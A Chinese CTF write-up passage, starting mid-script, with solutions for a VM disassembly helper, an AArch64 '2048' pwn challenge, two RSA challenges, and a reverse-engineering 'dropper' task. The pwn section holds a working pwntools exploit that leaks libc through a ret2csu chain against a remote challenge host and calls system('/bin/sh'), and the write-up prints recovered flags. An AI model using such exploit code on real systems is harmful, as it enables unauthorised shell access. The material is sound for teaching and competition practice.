    out = machine_code + "call YY ;这里是函数调用指令，调用函数同时也会把下一条指令地址压入栈中，等价于 push next code , jmp YY"
    print(out)

# opcode
# case 0xd
for i in range(0x00, 0x100):
    op_code = i
    if (op_code & 0xf) != 0xd:
        continue
    machine_code = "".join("%02X" % op_code)
    machine_code += " : "
    out = machine_code + "ret ;这里是函数return指令，等价于 pc = stack[stack_pc] , stack_pc ++"
    print(out)

# opcode X
# case 0xe
for i in range(0x1000, 0x10000):
    op_code = i >> 8
    X = i & 0xff
    if (op_code & 0xf) != 0x1e:
        continue
    machine_code = "".join("%02X" % op_code)
    machine_code += " "
    machine_code += "".join("%02X" % X)
    machine_code += " : "
    out = machine_code + "call field_A8[R0] ; 只有当 R0>=0 且 R0 <= 3 执行 field_A8处开始的四个函数的值，这四个函数在main 中被赋值到 field_A8 开始的指针"
    print(out)
```

我的idb文件

暂时无法在文档外展示此内容

VM指令的文本格式，运行上面的脚本应该可以得到相同的数据，ID：Cynosure 对指令有问题可以找我~~(或许我写错了，呜呜呜)~~

文本比较大，有4w+行指令

暂时无法在文档外展示此内容

## 2048

过了2048后直接ret2csu。

```Python
from pwn import *
from random import choices
import os

#0x402068 main ret
system_py = 0x40568
puts_py = 0x658c8
puts_plt = 0x400760
puts_got = 0x412F88
main_addr = 0x401EB0
name_addr = 0x413154

def p3_p64(i):
    return p64(i).decode('iso-8859-1')

def func_ret2csu(func, arg1, arg2, arg3):
    x30 = 0x4020B8
    #0x4020B8: LDR             X3, [X21,X19,LSL#3]
    x19 = 0
    x20 = 1
    x24 = arg1
    x23 = arg2
    x22 = arg3
    x21 = func
    payload = p3_p64(0x4020D8)
    #0x4020D8: LDP             X19, X20, [SP,#0x10]
    payload += p3_p64(0)
    # useless
    payload += p3_p64(x30)
    payload += p3_p64(x19)
    payload += p3_p64(x20)
    payload += p3_p64(x21)
    payload += p3_p64(x24)
    payload += p3_p64(x23)
    payload += p3_p64(x22)
    return payload

# r = process(["qemu-aarch64", "-g", "1234", "./2048"])
r = remote("124.70.166.38", "9999")
r.recvuntil("`")
cmd = r.recvuntil("`")[:-1].decode('iso-8859-1')
token = os.popen(cmd)
token = token.readlines()
r.send(token[0])

r.sendafter("Input your name: \n", p3_p64(0) + p3_p64(puts_plt))

r.send("asasasasasasassasasasasasasaasasasasasasassasasasasasasadadasaasasassadsassssassadsasassassdasdadadadssasasaaadsaasasdsasdsaasdadassasasdssdsasasaaadassdsaasaadsaasssasdsaassassdsasassadsasdsasasdsssdsassassaasasdasasasadsaaadasadssssasadsasasaasasdsaassaasaaasasaaaaaaadasssdaasaaaadsasdsssadsssasadsaadsaadsdsasadassaasdssadsaasasasaasasadadsasasaassaasadsasaasasadsasadasaasasasasaadadadsasdssasdsdsssdsdaaasdsdsddssasassssdasssassaadasasasadasasassdsasssasssasssssdsssssssasadssdsdsasdsassaasaassddsaasasasasssdsassasdaassdassdssaasasssdsdssadassdassdasasadadasasdasdsasaadasdsassasdsadadssasdssssdassdsdsadsssassasssdsasassaassdsasdsadssasssdsaassadsasaasdssasdsssasasdsdsdsdaddsddddddasdssasssdasdsssadasasassaaasaaaassasaadssdsdsddadsdsaasdassasasdadsasddsasasdsddsssasdsdsdsssdsasassdsdssdsdsdsdsdddadsdasdsdsdsdsssdssdsddsdadadsdssddsdadasdssdddsasssdadssadssssdadsdssdssdsddssddsdsasdsdasdsasddsdssddsdasddsasassddsdsdsaasddsadsdssdsassasassdsdassasddssssadsdsdssddsdddddadsdsdsaaa")

payload = "A" * 0x28
payload += func_ret2csu(name_addr + 8, puts_got, 0, 0)
payload += func_ret2csu(name_addr + 8, puts_got + 4, 0, 0)[8:]
r.sendafter("Do you want to continue playing? [y/n]: ", payload)

r.recvline()
libc = u64(r.recvline().ljust(8, b"\x00")) - 0x658c8 - 0xa000000
libc += (u64(r.recvline()[:-1].ljust(8, b"\x00")) << 32)
print("libc: " + hex(libc))

r.sendafter("Input your name: \n", "/bin/sh\x00" + p3_p64(libc + system_py))

r.send("asasasasasasassasasasasasasaasasasasasasassasasasasasasadadasaasasassadsassssassadsasassassdasdadadadssasasaaadsaasasdsasdsaasdadassasasdssdsasasaaadassdsaasaadsaasssasdsaassassdsasassadsasdsasasdsssdsassassaasasdasasasadsaaadasadssssasadsasasaasasdsaassaasaaasasaaaaaaadasssdaasaaaadsasdsssadsssasadsaadsaadsdsasadassaasdssadsaasasasaasasadadsasasaassaasadsasaasasadsasadasaasasasasaadadadsasdssasdsdsssdsdaaasdsdsddssasassssdasssassaadasasasadasasassdsasssasssasssssdsssssssasadssdsdsasdsassaasaassddsaasasasasssdsassasdaassdassdssaasasssdsdssadassdassdasasadadasasdasdsasaadasdsassasdsadadssasdssssdassdsdsadsssassasssdsasassaassdsasdsadssasssdsaassadsasaasdssasdsssasasdsdsdsdaddsddddddasdssasssdasdsssadasasassaaasaaaassasaadssdsdsddadsdsaasdassasasdadsasddsasasdsddsssasdsdsdsssdsasassdsdssdsdsdsdsdddadsdasdsdsdsdsssdssdsddsdadadsdssddsdadasdssdddsasssdadssadssssdadsdssdssdsddssddsdsasdsdasdsasddsdssddsdasddsasassddsdsdsaasddsadsdssdsassasassdsdassasddssssadsdsdssddsdddddadsdsdsaaa")

payload = "A" * 0x28
payload += func_ret2csu(name_addr + 8, name_addr, 0, 0)
r.sendafter("Do you want to continue playing? [y/n]: ", payload)

r.interactive()
```

# Crypto

## impossible RSA

给了ssl格式的公钥，先去在线网站解出n、e。

根据题目条件可推导出这样的关系：

$$k \cdot p^2 + p - e \cdot n = 0$$

这里直接用求根判别公式去爆破k即可。exp：

```Python
from Crypto.Util.number import *
from gmpy2 import *

e = 65537
n = 15987576139341888788648863000534417640300610310400667285095951525208145689364599119023071414036901060746667790322978452082156680245315967027826237720608915093109552001033660867808508307569531484090109429319369422352192782126107818889717133951923616077943884651989622345435505428708807799081267551724239052569147921746342232280621533501263115148844736900422712305937266228809533549134349607212400851092005281865296850991469375578815615235030857047620950536534729591359236290249610371406300791107442098796128895918697534590865459421439398361818591924211607651747970679849262467894774012617335352887745475509155575074809
for i in range(1,100000):
    l = iroot(1 + 4 * i * e * n,2)
    if l[1]:
        if n%((l[0]-1) // (2*i)) == 0:
            p = (l[0]-1) // (2*i)
            q = n//p
            print(i)
            break
assert p*q == n
flag = open('flag','rb').read()
f = bytes_to_long(flag)
d = invert(e,(p-1)*(q-1))
print(long_to_bytes(pow(f,d,n)))
# b'ACTF{F1nD1nG_5pEcia1_n_i5_nOt_eA5y}'
```

## RSA LEAK

这题一共有两个难点：1.类似于中间相遇的攻击思想求rp和rq 2.用已知条件建立一元二次方程求根

首先根据leak函数来求rp和rq，由于这两者都是（0，2^24）的随机数，双层循环爆破很困难，于是采用中间相遇的思想——以空间换时间：

```Python
# 中间相遇攻击
dic = {}
for i in tqdm(range(1,2**24)):
    tmp =(out-pow(i,e,n0))%n0
    dic[tmp]=i

for i in tqdm(range(2**24)):
    t = pow(i,e,n0)
    if t in dic.keys():
        print(i,dic[t])
```

对于n=pp.qq，不难发现a.b就等于n开四次根取整，因为这里的rp和rq太小了。整理一下所有的已知条件：
$$
\begin{aligned}
r_p &= pp - p \\
r_q &= qq - q \\
pq &= (ab)^4 \\
pp \cdot qq &= n
\end{aligned}
$$
如果我们用rp乘rq，会出现n,pp*q,qq*p,p*q ，由于 pp*q 是未知的，所以需要构造这个来相消；因此考虑 rp*q ，同理rq*p，消去以后剩下 p*q 和 n ，都是已知量，最后得到：

$$r_p \cdot q^2 + (pq - r_p \cdot r_q - p^2 q^2) + r_q \cdot p^2 = 0$$

等式两边同乘qq得到关于qq的一元二次方程，解出来就是qq，完整过程：

```Python
from gmpy2 import *
from tqdm import tqdm

n0 = 122146249659110799196678177080657779971
out = (90846368443479079691227824315092288065-0xdeadbeef)%n0
sig = 0xdeadbeef
e = 65537

# 中间相遇攻击
dic = {}
for i in tqdm(range(1,2**24)):
    tmp =(out-pow(i,e,n0))%n0
    dic[tmp]=i

for i in tqdm(range(2**24)):
    t = pow(i,e,n0)
    if t in dic.keys():
        print(i,dic[t])

# sage
import gmpy2
r1=11974933
r2=405771
n = 3183573836769699313763043722513486503160533089470716348487649113450828830224151824106050562868640291712433283679799855890306945562430572137128269318944453041825476154913676849658599642113896525291798525533722805116041675462675732995881671359593602584751304602244415149859346875340361740775463623467503186824385780851920136368593725535779854726168687179051303851797111239451264183276544616736820298054063232641359775128753071340474714720534858295660426278356630743758247422916519687362426114443660989774519751234591819547129288719863041972824405872212208118093577184659446552017086531002340663509215501866212294702743
e = 65537
c = 48433948078708266558408900822131846839473472350405274958254566291017137879542806238459456400958349315245447486509633749276746053786868315163583443030289607980449076267295483248068122553237802668045588106193692102901936355277693449867608379899254200590252441986645643511838233803828204450622023993363140246583650322952060860867801081687288233255776380790653361695125971596448862744165007007840033270102756536056501059098523990991260352123691349393725158028931174218091973919457078350257978338294099849690514328273829474324145569140386584429042884336459789499705672633475010234403132893629856284982320249119974872840
t=gmpy2.iroot(n,4)[0]^4
A=r1
B=t-r1*r2-n
C=r2*n
q=(-B+isqrt(B^2-4*A*C))//(2*A)
p=n//q
phi=(p-1)*(q-1)
d=gmpy2.invert(e,phi)
m=pow(c,d,n)
print(bytes.fromhex(hex(m)[2:]))
# b'ACTF{lsb_attack_in_RSA|a32d7f}'
```

# Rev

## dropper

首先程序打开 大致看下思路 给人的感觉就是他这个题好像就是两个大整数再balabala

最后这个地方应该就是做差 



一开始程序调试期间遇到了除0异常 在其他地方下断点即可



这个地方确定了大小









之后

是解密字符串数据后进行逆序的4个一组切割字符串并转换为int，还原出一个大数的操作

dump出密文 取出运算数据

```JSON
[[0x000024AC, 0x00000116, 0x000004F4, 0x00000B64, 0x00001DC3, 0x00001B4A, 0x000001B2, 0x00001FCE, 0x00000E81, 0x000025AB, 0x0000015B, 0x0000252D, 0x000002AC, 0x00000F77, 0x000022F5, 0x000019E3, 0x00001C53, 0x00000B66, 0x000011BC, 0x0000193A],
[0x00000DC6, 0x00000854, 0x000015F5, 0x00002567, 0x000008FA, 0x00000E20, 0x00000807, 0x00001007, 0x000018CC, 0x00001E84, 0x00001F11, 0x000013D4, 0x0000076A, 0x00001461, 0x00000B0F, 0x00001F70, 0x00001B3D, 0x00001008, 0x00000D52, 0x0000049A],
[0x00001A89, 0x00000E42, 0x000000FA, 0x0000100D, 0x000014DD, 0x00001BFC, 0x000026DB, 0x00001AC2, 0x00001CA0, 0x000005ED, 0x00000834, 0x000016BF, 0x00000704, 0x00001FAD, 0x000025FD, 0x00001142, 0x00001EEE, 0x00001E60, 0x00000353, 0x000015A8],
[0x00000E17, 0x00000706, 0x00000C1F, 0x00000169, 0x00002248, 0x000007FD, 0x00001768, 0x00001F54, 0x00001574, 0x00002458, 0x00000374, 0x00001D6B, 0x00000918, 0x00000ECF, 0x0000211D, 0x00001D96, 0x00001BEB, 0x00001703, 0x00001B87, 0x000006FA],
[0x00000AE3, 0x0000069F, 0x000001EF, 0x00001C15, 0x00001378, 0x000020D1, 0x0000211D, 0x00002275, 0x000005F4, 0x00002475, 0x00000D13, 0x000008EF, 0x00000E10, 0x000006D4, 0x0000215A, 0x000004D6, 0x0000202F, 0x00001B99, 0x00001C86, 0x000002F1],
[0x00000680, 0x000000D4, 0x00000677, 0x00001E21, 0x0000220D, 0x00000933, 0x00000973, 0x00001947, 0x00000D61, 0x0000247F, 0x00001D21, 0x00001FA2, 0x00001606, 0x000007B0, 0x00001829, 0x000016C0, 0x000026C9, 0x0000248C, 0x00000C9A, 0x00001F8F],
[0x0000257F, 0x00000359, 0x00001831, 0x000021B7, 0x00000BA8, 0x00000FC5, 0x00000BA4, 0x000024E2, 0x00001241, 0x00000D53, 0x00000C82, 0x00001240, 0x00002241, 0x00001156, 0x0000116A, 0x000005F3, 0x000022D5, 0x000008DA, 0x000014A3, 0x0000059E],
[0x00001675, 0x00000AA9, 0x00000D8B, 0x00000D31, 0x00001722, 0x000006C8, 0x0000151B, 0x000017D8, 0x00001FEF, 0x00001624, 0x00002307, 0x00000CB9, 0x0000053C, 0x00000230, 0x00001EAA, 0x00001FD1, 0x00000FAD, 0x00001E30, 0x00002345, 0x00001583],
[0x000001D1, 0x0000056E, 0x00000AA3, 0x0000223C, 0x000009A4, 0x000006C9, 0x00000112, 0x00001977, 0x00002512, 0x00000B60, 0x0000081A, 0x00000F06, 0x00001329, 0x000011AA, 0x00002404, 0x00000E57, 0x0000011E, 0x000011DC, 0x00002474, 0x00001BC7],
[0x000022BE, 0x00001F17, 0x00000588, 0x00001B80, 0x00001479, 0x000016EF, 0x000008CA, 0x00000D6E, 0x0000138F, 0x00001054, 0x000021FA, 0x00000102, 0x000013A6, 0x00000195, 0x000002D1, 0x00002594, 0x00001369, 0x00002534, 0x000015C5, 0x0000168A]]
```

运算过程



脚本解密即可

```Python
 #_*_coding:utf-8_*_
import base64
data = [[0x000024AC, 0x00000116, 0x000004F4, 0x00000B64, 0x00001DC3, 0x00001B4A, 
        0x000001B2, 0x00001FCE, 0x00000E81, 0x000025AB, 0x0000015B, 0x0000252D, 
        0x000002AC, 0x00000F77, 0x000022F5, 0x000019E3, 0x00001C53, 0x00000B66, 
        0x000011BC, 0x0000193A],[0x00000DC6, 0x00000854, 0x000015F5, 0x00002567, 
        0x000008FA, 0x00000E20, 0x00000807, 0x00001007, 0x000018CC, 0x00001E84,
        0x00001F11, 0x000013D4, 0x0000076A, 0x00001461, 0x00000B0F, 0x00001F70,
        0x00001B3D, 0x00001008, 0x00000D52, 0x0000049A],[0x00001A89, 0x00000E42, 
        0x000000FA, 0x0000100D, 0x000014DD, 0x00001BFC, 0x000026DB, 0x00001AC2, 
        0x00001CA0, 0x000005ED, 0x00000834, 0x000016BF, 0x00000704, 0x00001FAD, 
        0x000025FD, 0x00001142, 0x00001EEE, 0x00001E60, 0x00000353, 0x000015A8],
        [0x00000E17, 0x00000706, 0x00000C1F, 0x00000169, 0x00002248, 0x000007FD, 
        0x00001768, 0x00001F54, 0x00001574, 0x00002458, 0x00000374, 0x00001D6B, 
        0x00000918, 0x00000ECF, 0x0000211D, 0x00001D96, 0x00001BEB, 0x00001703, 
        0x00001B87, 0x000006FA],[0x00000AE3, 0x0000069F, 0x000001EF, 0x00001C15,
        0x00001378, 0x000020D1, 0x0000211D, 0x00002275, 0x000005F4, 0x00002475,
        0x00000D13, 0x000008EF, 0x00000E10, 0x000006D4, 0x0000215A, 0x000004D6,
        0x0000202F, 0x00001B99, 0x00001C86, 0x000002F1],[0x00000680, 0x000000D4, 
        0x00000677, 0x00001E21, 0x0000220D, 0x00000933, 0x00000973, 0x00001947, 
        0x00000D61, 0x0000247F, 0x00001D21, 0x00001FA2, 0x00001606, 0x000007B0,
        0x00001829, 0x000016C0, 0x000026C9, 0x0000248C, 0x00000C9A, 0x00001F8F],
        [0x0000257F, 0x00000359, 0x00001831, 0x000021B7, 0x00000BA8, 0x00000FC5, 
        0x00000BA4, 0x000024E2, 0x00001241, 0x00000D53, 0x00000C82, 0x00001240, 
        0x00002241, 0x00001156, 0x0000116A, 0x000005F3, 0x000022D5, 0x000008DA, 
        0x000014A3, 0x0000059E],[0x00001675, 0x00000AA9, 0x00000D8B, 0x00000D31,
        0x00001722, 0x000006C8, 0x0000151B, 0x000017D8, 0x00001FEF, 0x00001624, 
        0x00002307, 0x00000CB9, 0x0000053C, 0x00000230, 0x00001EAA, 0x00001FD1, 
        0x00000FAD, 0x00001E30, 0x00002345, 0x00001583],[0x000001D1, 0x0000056E,
        0x00000AA3, 0x0000223C, 0x000009A4, 0x000006C9, 0x00000112, 0x00001977,
        0x00002512, 0x00000B60, 0x0000081A, 0x00000F06, 0x00001329, 0x000011AA,
        0x00002404, 0x00000E57, 0x0000011E, 0x000011DC, 0x00002474, 0x00001BC7],
        [0x000022BE, 0x00001F17, 0x00000588, 0x00001B80, 0x00001479, 0x000016EF, 
        0x000008CA, 0x00000D6E, 0x0000138F, 0x00001054, 0x000021FA, 0x00000102, 
        0x000013A6, 0x00000195, 0x000002D1, 0x00002594, 0x00001369, 0x00002534, 
        0x000015C5, 0x0000168A]]

enc = [0x000020F1, 0x00001DA9, 0x00000156, 0x00000B37, 0x000007C0, 0x0000066A,
       0x000024E0, 0x00000D42, 0x00002077, 0x000007EC, 0x00001BA7, 0x00002071, 
       0x000000F8, 0x00000291, 0x000003DA, 0x0000157C, 0x00001EF4, 0x00002519,
       0x00000C25, 0x00002062, 0x00002253, 0x00000640, 0x000008DF, 0x00001E34, 
       0x00002140, 0x00000F92, 0x0000039B, 0x0000126F, 0x00002403, 0x00000E65, 
       0x000001F0, 0x00001868, 0x0000016D, 0x000006B6, 0x00002214, 0x00001603,
       0x00001925, 0x000016AE, 0x000012D0, 0x00001831, 0x0000018C, 0x00000BF7,
       0x00000E97, 0x000000CE, 0x0000061C, 0x00000390, 0x000019E9, 0x000022A5,
       0x00001601, 0x00001A1E, 0x000013D1, 0x00000DBC, 0x0000117D, 0x0000225F, 
       0x00002272, 0x0000007B, 0x000023E6, 0x0000069F, 0x000002D3, 0x00001BEF,
       0x000003E6, 0x000017D4, 0x00002284, 0x000003B8, 0x00000251, 0x00001646, 
       0x00000176, 0x0000081E, 0x000024C3, 0x00001E85, 0x00001097, 0x00001264,
       0x00000A34, 0x00001A3B, 0x00000FE7, 0x000026A6, 0x00001F43, 0x00001832, 
       0x000021AE, 0x0000023C, 0x000004C2, 0x00002585, 0x000017E7, 0x000015DD, 
       0x00002610, 0x00001B86, 0x00000D2A, 0x00000716, 0x00001C25, 0x00002099]

ful1 = 0
asu= [0]*10
flag = ''
for i in enc[::-1]:
    ful1 = ful1*10000+i

for i, j in enumerate(data):
    for j in j[::-1]:
        asu[i] = asu[i]*10000+j
#做运算  
ful1 += asu[9]
ful1 -= asu[8]
ful1 += asu[7]
ful1 -= asu[6]
ful1 += asu[5]
ful1 //= asu[4]
ful1 -= asu[3]
ful1 += asu[2]
ful1 //= asu[1]
ful1 -= asu[0]

while ful1:
    flag += chr(ful1%128)
    ful1 //= 128
flag = base64.b64decode(flag)
print(flag) 
```


# Blockchain

## bet2loss

https://www.seaeye.cn/archives/480.html


## AAADAO

https://www.seaeye.cn/archives/480.html

